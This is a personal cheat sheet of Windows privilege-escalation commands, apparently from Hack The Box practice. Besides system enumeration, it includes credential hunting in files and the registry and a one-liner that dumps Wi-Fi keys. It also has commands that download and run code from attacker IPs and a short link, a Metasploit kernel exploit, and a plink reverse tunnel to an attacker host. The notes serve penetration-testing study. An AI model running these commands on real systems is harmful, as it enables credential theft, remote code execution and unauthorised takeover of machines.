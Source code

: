 ```yaml
---
layout: post
title: "windows privesc"
keywords: "windows, privesc, privilige escalation"
---
```


#### Resources

1. [https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources){:target="_blank"}
1. [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation){:target="_blank"}

#### System enumeration

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

hostname

wmic qfe get Caption,Description,HotFixID, InstalledOn
wmic logicaldisk get caption,description,providername
```

#### User enumeration

```
whoami
whoami /priv
whoami /groups

net user
net user <user>
net localgroup
net localgroup <group>
```

#### Network enumeration

```
ipconfig /all

arp -a

route print

netstat -ano
```

#### Password Hunting
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)

```
findstr /si password *.txt *.ini *.config

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

#### AV enumeration

```
sc query windefend
sc queryex type= service

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

#### Automated Tools

1. Executables: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS){:target="_blank"} / [Seatbelt]( https://github.com/GhostPack/Seatbelt){:target="_blank"} / [Watson](https://github.com/rasta-mouse/Watson){:target="_blank"} / [SharpUp](https://github.com/GhostPack/SharpUp){:target="_blank"}
1. Powershell: [Sherlock](https://github.com/rasta-mouse/Sherlock){:target="_blank"} / [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc){:target="_blank"} / [JAWS](https://github.com/411Hall/JAWS){:target="_blank"}
1. Other: [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester){:target="_blank"} / [Metasploit Local Exploit Suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/){:target="_blank"}

```
> cmd /c powershell Invoke-WebRequest http://10.10.14.140/<file> -OutFile <file>

meterpreter > cd c:\\windows\\temp
meterpreter > upload /opt/winpeas/winPEAS.exe
meterpreter > shell
> winPEAS.exe

meterpreter > cd c:\\windows\\temp
meterpreter > upload /opt/PowerUp.ps1
meterpreter > shell
> powershell -ep bypass
powershell > Import-Module PowerUp.ps1
powershell > Invoke-AllChecks

> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”

meterpreter > run post/multi/recon/local_exploit_suggester
```
- https://recipeforroot.com/advanced-powerup-ps1-usage/
- https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
- https://www.hackingarticles.in/window-privilege-escalation-automated-script/

#### Kernel Exploits

Hack The Box: Devel

```
meterpreter > background
> use post/multi/recon/local_exploit_suggester
> set session 1
> run

[+] 0.0.0.0 - use exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated

> use exploit/windows/local/ms10_015_kitrap0d
> set session 1
> set lhost tun0
> set lport 4445
> run
```

#### Passwords & Port Forwarding

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

Hack The Box: Chatterbox

```
> whoami
> net users
> net user <user>

> reg query HKLM /f password /t REG_SZ /s
> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

DefaultUserName    REG_SZ    <user>
AutoAdminLogon     REG_SZ    1
DefaultPassword    REG_SZ    *******
```

```
> sudo vim /etc/ssh/sshd_config
# Change PermitRootLogin prohibit-password to PermitRootLogin yes

> service ssh restart
> service ssh start
```

```
> netstat -ano
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4

# Download plink.exe (https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
>> certutil -urlcache -f http://10.10.14.51:8000/plink.exe plink.exe
>> plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.51 -v
>>> winexe -U Administrator%Welcome1 //127.0.0.1 "cmd.exe"
```

#### WSL (Windows Subsystem for Linux)

Hack The Box: SecNotes